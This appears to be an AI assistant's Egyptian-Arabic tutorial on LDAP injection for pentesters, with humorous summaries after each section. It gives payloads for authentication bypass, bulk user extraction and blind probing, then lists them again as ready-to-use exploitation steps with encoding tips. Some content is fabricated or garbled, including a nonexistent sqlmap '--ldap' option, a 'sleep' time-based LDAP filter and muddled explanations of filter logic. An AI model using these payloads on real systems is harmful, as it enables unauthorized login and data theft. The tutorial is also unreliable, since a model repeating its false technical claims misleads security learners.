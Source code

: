 تمام، هنشرح **فهم LDAP وكيفية استغلاله** بعمق عملي مع أكواد وتفاصيل، وهنركز على الجوانب اللي تهمك كـ pentester. هقسم الموضوع لأجزاء عن فهم LDAP وتقنيات الاستغلال، وبعد كل جزء هحط خلاصة طريفة بالعامية المصرية، وفي الآخر هقدم خطوات عملية للاستغلال. يلا نبدأ!

---
### **1. فهم LDAP: إيه هو وازاي بيشتغل؟**
#### **إيه هو؟**
LDAP (Lightweight Directory Access Protocol) هو بروتوكول بيستخدم للوصول لقواعد بيانات هرمية (Directories) زي Active Directory. بيخزن بيانات زي أسماء المستخدمين، الباسووردات، والإيميلات، وكتير من التطبيقات بتستخدمه للمصادقة أو البحث.

#### **ازاي بيشتغل؟**
LDAP بيستخدم استعلامات (Filters) شبه شجرة، مكتوبة بصيغة زي:
```
(uid=admin)(userPassword=123)
```
- `uid`: اسم المستخدم.
- `userPassword`: الباسوورد.
لو التطبيق بياخد مدخلات منك (زي يوزر نيم) ويحطها في الاستعلام من غير فلترة، تقدر تحقن أوامر تغير منطق الاستعلام.

#### **مثال عملي:**
- استعلام عادي:
  ```
  (&(uid=admin)(userPassword=123))
  ```
  معناه: "جيب اليوزر admin لو الباسوورد 123".
- لو حطيت في اليوزر نيم:
  ```
  admin)(&
  ```
  الاستعلام هيبقى:
  ```
  (&(uid=admin)(&)(userPassword=whatever))
  ```
  الـ `)(&` بيخليه True دايماً، فتدخل من غير باسوورد.

#### **خلاصة طريفة:**
تخيل إن LDAP زي دفتر تليفونات كبير، لو قلت للموظف "اديني رقم أحمد، وكمان أي حاجة تانية"، لو جابلك كل الأرقام يبقى هو اللي سابك تاخد كل حاجة!

---

### **2. استغلال LDAP: تجاوز المصادقة**
#### **إيه هو؟**
LDAP Injection بيسمحلك تتخطى اللوجين لو التطبيق بيثق في المدخلات بتاعتك من غير ما ينظفها.

#### **ازاي بيشتغل؟**
بتستخدم أحرف خاصة زي `*` (Wildcard) أو `)` (إغلاق قوس) عشان تعطل شرط الباسوورد.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```
  (&(uid=admin)(userPassword=123))
  ```
- في حقل اليوزر نيم:
  ```
  admin)(&|(!(uid=*))
  ```
  الاستعلام هيبقى:
  ```
  (&(uid=admin)(&|(!(uid=*)))(userPassword=whatever))
  ```
  الـ `|(!(uid=*))` بيخليه دايماً True، فتدخل.

- **اختبار يدوي:**
  ```
  username: admin)(&
  password: test
  ```

#### **خلاصة طريفة:**
تخيل إنك بتقول للبواب "أنا أحمد وكفاية كده"، لو فتحلك الباب من غير ما يسأل عن كلمة السر، يبقى هو اللي نايم في النوبة!

---

### **3.  Valid LDAP Attributes
#### **إيه هو؟**
تقدر تستخدم LDAP Injection عشان تسحب بيانات زي أسماء المستخدمين أو الإيميلات لو التطبيق بيرجع نتايج من الديركتوري.

#### **ازاي بيشتغل؟**
بتحقن Wildcard `*` أو تعبيرات تجيب كل البيانات بدل حاجة محددة.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```
  (uid=admin)
  ```
- في حقل البحث:
  ```
  *)(uid=*
  ```
  الاستعلام هيبقى:
  ```
  (uid=*)(uid=*)
  ```
  معناه: "جيب كل المستخدمين"، وكده هيطلعلك كل الـ uid.

- **اختبار يدوي:**
  ```
  search: *)(uid=*
  ```
  لو رجع قايمة مستخدمين، يبقى نجح.

#### **خلاصة طريفة:**
تخيل إنك بتقول للموظف "اديني بيانات أحمد، أو أي حد موجود"، لو جابلك الدفتر كله يبقى هو اللي فتحلك الخزنة!

---

### **4. استغلال LDAP: Blind Injection**
#### **إيه هو؟**
لو التطبيق مش بيرجع نتايج مباشرة، تقدر تستخدم تقنيات Blind عشان تتأكد من الثغرة وتستخرج بيانات بالتدريج.

#### **ازاي بيشتغل؟**
بتحقن شروط True/False أو تتأخر الاستجابة لو الشرط صح.

#### **مثال عملي:**
- **Boolean-Based:**
  ```
  admin)(uid=admin
  ```
  لو دخلت (True)، جرب:
  ```
  admin)(uid=wrong
  ```
  لو رفض (False)، يبقى شغال.

- **Time-Based:**
  لو مدموج مع داتابيز تانية:
  ```
  admin)(sleep=5
  ```
  لو الصفحة تأخرت 5 ثواني، يبقى في ثغرة.

#### **خلاصة طريفة:**
تخيل إنك بتسأل البواب "لو أنا أحمد افتح، لو مش أحمد استنى شوية"، لو استنى يبقى كده فتحتلك الباب بالذكاء!

---

### **خطوات عملية للاستغلال كـ Pentester**
1. **فهم الهدف:**
   - شوف لو التطبيق بيستخدم LDAP (زي رسالة خطأ تقول "LDAP Error" أو Active Directory).
   - جرب أي حقل إدخال (لوجين، بحث).

2. **تجاوز المصادقة:**
   - في اليوزر نيم:
     ```
     admin)(&
     ```
     أو:
     ```
     admin)(&|(!(uid=*))
     ```
     وأي باسوورد.

3. **استخراج البيانات:**
   - في حقل بحث:
     ```
     *)(uid=*
     ```
     لو رجع بيانات، دوّنها.

4. **اختبار Blind:**
   - Boolean:
     ```
     admin)(uid=admin
     ```
     ثم:
     ```
     admin)(uid=wrong
     ```
   - Time-Based:
     ```
     admin)(sleep=5
     ```

5. **استخدام أدوات:**
   - Burp Suite: اعترض الطلب وحط:
     ```
     username=admin)(&
     ```
   - sqlmap (لو مدموج):
     ```
     sqlmap -u "http://example.com/login.php" --data="username=admin&password=test" --ldap
     ```

#### **نصيحة:**
- لو في فلتر، جرب تشفير زي `%29%26` (يعني `)(&`).
- دوّن كل ردود السيرفر عشان تفهم النظام.

---

ها، عايز أشرح حاجة زيادة زي استخراج بيانات أكتر أو أعمق في أدوات؟